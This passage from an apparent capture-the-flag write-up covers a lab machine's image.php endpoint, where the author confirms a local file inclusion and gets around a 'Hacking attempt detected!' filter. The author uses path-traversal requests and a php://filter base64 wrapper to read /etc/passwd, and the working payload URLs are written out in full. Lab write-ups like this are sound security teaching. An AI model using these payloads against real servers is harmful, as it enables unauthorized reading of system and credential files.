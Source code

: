 A working parameter is quickly found:

```text
http://10.10.11.135/image.php?img=/etc/passwd
http://10.10.11.135/image.php?img=../../../etc/passwd
```

The response body will contain the text:

```text
Hacking attempt detected!
```

I tried using this parameter as it was probably intended to be used. Here with the image file from the login page:

```text
http://10.10.11.135/image.php?img=./images/user-icon.png
```

This printed the binary blob of the image file. So it seems we actually have a local file inclusion (LFI) at our hands.

The only hurdle now is the input filter that produces the error output: `Hacking attempt detected!`.

#### PHP Wrapper

[PayloadAllTheThings has a cheatsheet for PHP Wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers).

The following PHP Wrapper ended up working:

```text
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```

![PHP Wrapper LFI](/assets/img/timing_30_lfi_wrapper.png)
